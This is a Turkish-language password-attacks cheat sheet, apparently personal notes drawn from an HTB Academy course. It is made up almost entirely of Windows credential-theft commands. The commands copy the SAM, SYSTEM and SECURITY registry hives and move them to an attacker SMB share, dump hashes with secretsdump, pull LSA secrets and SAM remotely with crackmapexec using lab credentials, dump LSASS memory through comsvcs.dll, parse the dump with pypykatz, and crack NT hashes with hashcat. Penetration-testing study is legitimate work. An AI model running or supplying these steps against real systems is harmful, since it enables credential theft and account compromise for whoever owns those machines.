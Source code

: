 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/password-attacks-cheat-sheet/"}
---
```




#### 1-**Registry Hives Kopyalamak için reg.exe save dosyasını kullanma**  

```cmd-session
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save


C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save


C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save

```

##### 1- Attack Host SMB server oluşturma
```shell-session
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```

##### 2- Attack Host Paylaşımına Hives'leri taşıma
```cmd-session
move sam.save \\10.10.15.16\CompData
```

```cmd-session
move security.save \\10.10.15.16\CompData
```

```cmd-session
move system.save \\10.10.15.16\CompData
```



##### 3-**Impacket'in secretsdump.py ile Hash'leri Dump Etme**

```shell-session
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```


##### 4- **Hashcat'i NT Hash'lerine karşı çalıştırma**

```shell-session
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```



#### 2-**Dumping LSA Secrets Remotely**
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```


#### 3-Dumping SAM Remotely
```shell-session
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```



#### 4- **LSASS Process Belleğini Dump Etme**  

##### 1-Task Manager Method
![Pasted image 20241103020941.png](/img/user/resimler/Pasted%20image%2020241103020941.png)

###### Dump yeri 
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```


##### 2-Rundll32.exe & Comsvcs.dll Method

###### Finding LSASS PID in cmd

```cmd-session
C:\Windows\system32> tasklist /svc
```

###### Finding LSASS PID in PowerShell
```powershell-session
Get-Process lsass
```


###### PowerShell kullanarak lsass.dmp oluşturma
```powershell-session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```



#### 5-**Kimlik Bilgilerini Çıkarmak için Pypykatz Kullanma**

```shell-session
pypykatz lsa minidump /home/peter/Documents/lsass.dmp 
```


#### 6- **Hashcat ile NT Hash'ini Kırma**

```shell-session
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```



## Attacking Active Directory & NTDS.dit

